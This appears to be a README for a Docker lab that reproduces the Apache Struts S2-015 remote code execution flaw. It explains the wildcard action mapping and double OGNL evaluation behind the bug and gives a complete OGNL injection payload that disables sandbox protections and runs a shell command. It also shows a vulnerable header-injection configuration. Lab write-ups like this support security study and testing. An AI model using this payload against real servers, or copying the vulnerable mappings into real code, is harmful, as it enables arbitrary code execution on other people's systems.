


# S2-015 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.2

Details: http://struts.apache.org/docs/s2-015.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

Struts 2 allows define action mapping base on wildcards, like in example below:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

If a request doesn't match any other defined action, it will be matched by * and requested action name will be used to load JSP file base on the name of action. And as value of {1} is threaten as an OGNL expression, thus allow to execute arbitrary Java code on server side. This vulnerability is combination of two problems:

1. requested action name isn't escaped or checked agains whitelist
2. double evaluation of an OGNL expression in TextParseUtil.translateVariables when combination of $ and % open chars is used.

## Exploit

Payload as follows：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Result:



In addition to the above situation, S2-015 has another case of code execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Result:


